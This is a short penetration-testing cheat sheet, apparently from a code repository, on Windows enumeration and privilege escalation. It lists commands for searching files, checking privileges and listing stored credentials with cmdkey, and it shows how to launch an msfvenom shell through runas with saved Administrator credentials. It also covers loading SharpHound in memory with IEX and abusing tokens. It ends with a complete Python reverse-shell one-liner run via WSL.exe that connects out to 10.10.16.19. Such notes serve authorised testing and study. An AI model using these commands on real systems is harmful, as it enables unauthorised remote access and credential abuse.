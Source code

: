 # Windows Enumeration


| Command | Summary |
| ---------------------------- | ---------------------------- |
| ```dir <name of file> /s /p``` | Search the file system, recursively for the filename |
| ```whoami /priv``` | Gets the privileges for current user context |
| ```more < name_of_alternate_data_stream.txt``` | Returns the contents of the alternate data stream | 
| ```cmdkey /list``` | We may get lucky and find stored credentials |
| ```runas /savecred /user:DOM.LOCAL\Administrator "C:\Users\<user>\Documents\shell.exe"``` | If the user is storing creds, launch an msfvenom shell | 

| Check | Description |
| ---------------------------- | ---------------------------- |
| PowerShell IWR vs IEX | Be sure to remember IEX will run the script in memory, useful for loading SharpHound.ps1 remotely |
| What tokens are on machine | If there tokens on the machine, you may be able to switch into that user, and elevate privileges |

## Common Location for WSL.exe
```
c:\Windows\WinSxS\amd64_microsoft-windows-lxss-wsl_31bf3856ad364e35_10.0.17134.1_none_686f10b5380a84cf\wsl.exe
```

## Python Reverse Shell with WSL.exe
```
c:\Windows\WinSxS\amd64_microsoft-windows-lxss-wsl_31bf3856ad364e35_10.0.17134.1_none_686f10b5380a84cf\wsl.exe python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.19",12345));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```